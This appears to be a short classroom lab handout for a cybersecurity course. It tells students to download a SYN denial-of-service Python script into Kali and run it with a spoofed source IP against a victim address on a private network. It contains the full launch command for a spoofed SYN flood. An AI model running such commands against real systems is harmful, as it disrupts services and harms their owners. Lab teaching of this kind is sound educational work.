 - This is for Vu23215 AT2 Part2 Activity5 - questions e and f.
- Download the [Python file](https://github.com/kaledaljebur/syn-denial-of-service-attack/blob/main/dos.py) into Kali's Desktop.
    - You may try right click on the link, then select ***Save link as...***
- Implement the following:
    - cd Desktop
    - sudo python ./dos.py 192.168.1.2 192.168.1.200 80 10
    - Notice:
        - sudo python ./dos.py is to run the file.
        - 192.168.1.2 is the attacker or fake IP.
        - 192.168.1.200 is victim IP.
        - 10 number of attacking packets (small number for quick testing). 

Ask your teacher if you have any questions.